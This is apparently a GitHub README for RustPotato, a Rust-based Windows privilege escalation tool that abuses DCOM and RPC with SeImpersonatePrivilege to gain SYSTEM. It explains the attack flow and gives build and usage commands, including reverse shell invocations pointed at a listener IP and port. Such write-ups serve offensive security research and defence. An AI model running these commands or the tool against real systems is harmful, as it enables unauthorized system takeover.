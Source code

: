 # RustPotato

**RustPotato** is a Rust-based implementation of [GodPotato](https://github.com/BeichenDream/GodPotato), a privilege escalation tool that abuses **DCOM** and **RPC** to leverage **SeImpersonatePrivilege** and gain `NT AUTHORITY\SYSTEM` privileges on Windows systems.

## Key Features

- **TCP-based Reverse Shell**:  
  RustPotato features a TCP-based reverse shell based on [Rustic64Shell](https://github.com/safedv/Rustic64Shell). It leverages Winsock APIs for network communication and indirect NT APIs for pipe-based I/O redirection, enabling command execution through `cmd` or `powershell`.

- **Indirect NTAPI**:  
  RustPotato leverages indirect NTAPI calls for various operations, including token handling and manipulation.

## Overview

Below is an overview of its execution flow, highlighting key operations at each step:

### 1. **Initialize and Hook RPC Context**

1. **Locate `RPC_SERVER_INTERFACE` Structure**:  
   The tool scans the memory of `combase.dll` to find the `RPC_SERVER_INTERFACE` structure, a critical component for managing RPC communications through the OXID Resolver.

2. **Hook RPC Dispatch Table**:  
   RustPotato replaces the first entry in the `RPC_DISPATCH_TABLE` with a custom function pointer, enabling interception and manipulation of specific RPC calls.

### 2. **Start Named Pipe Server and Trigger RPCSS**

The named pipe server plays a central role in impersonation and privilege escalation:

- **Create Named Pipe**:  
  A named pipe (e.g., `\\.\pipe\RustPotato`) is created with unrestricted access, serving as the endpoint for client connections.

- **Unmarshal COM Object**:  
  RustPotato crafts and unmarshals a COM object, compelling **RPCSS** to establish a connection with the named pipe.

- **Trigger RPCSS**:  
  The unmarshalled object invokes RPC calls that traverse the hooked dispatch table, allowing RustPotato to intercept and manipulate the interactions.

- **Impersonate Client**:  
  When **RPCSS** connects to the named pipe, RustPotato impersonates the client using `ImpersonateNamedPipeClient` to assume its security context.

- **Retrieve SYSTEM Token**:  
  During impersonation, RustPotato locates and duplicates a token associated with the `NT AUTHORITY\SYSTEM` account.

### 3. **Execute Command or Establish Reverse Shell**

- **Execute a Command**:  
  RustPotato uses the duplicated token to execute a specified command, leveraging `CreateProcessWithTokenW`.

- **Establish a Reverse Shell**:  
  With reverse shell options (`-h` and `-p`), RustPotato connects to a listener and executes commands through `cmd` or `powershell`.

### 4. **Restore State and Cleanup**

- **Restore RPC Dispatch Table**:  
  Removes the custom function pointer from the `RPC_DISPATCH_TABLE` and restores the original state in `combase.dll`.

- **Terminate Pipe Server**:  
  Stops the named pipe server, releasing all associated resources and handles.

## Usage

RustPotato provides the following features:

- **`verbose`**: Enables detailed logging during execution.

### Build Options

> **Note:** RustPotato supports only x86_64 targets (MSVC or GNU).

- **Basic build** (only the process output is printed):

  ```bash
  cargo build --release
  ```

- **Build with verbose logging**:

  ```bash
  cargo build --release --features verbose
  ```

### Help

```text
Usage:
  RustPotato.exe [command line] | [options]

Description:
  Execute a command line or start a reverse shell.

Options:
  -h <LHOST>         Specify the IP address of the listener for the reverse shell.
  -p <LPORT>         Specify the port of the listener for the reverse shell.
  -c <cmd|powershell>
                     Specify the shell to be used in the reverse shell (optional, default is cmd).

Examples:
  Execute a command line:
    RustPotato.exe "cmd.exe /c whoami"

  Start a reverse shell with the default shell (cmd):
    RustPotato.exe -h 192.168.1.100 -p 4444

  Start a reverse shell with powershell:
    RustPotato.exe -h 192.168.1.100 -p 4444 -c powershell
```

## Disclaimer

This project is for **educational and research purposes only**. RustPotato is a personal learning project focused on exploring Rust and Windows internals. Use it responsibly—any misuse is entirely your responsibility.

Always respect ethical guidelines and adhere to legal frameworks while conducting security research (or, honestly, in everything you do).

## Credits

Special thanks to:

- [BeichenDream](https://github.com/BeichenDream) for his work on [GodPotato](https://github.com/BeichenDream/GodPotato), which made this port possible!
- [Resolving System Service Numbers Using The Exception Directory by MDsec](https://www.mdsec.co.uk/2022/04/resolving-system-service-numbers-using-the-exception-directory/) for their insights on resolving SSNs.

---
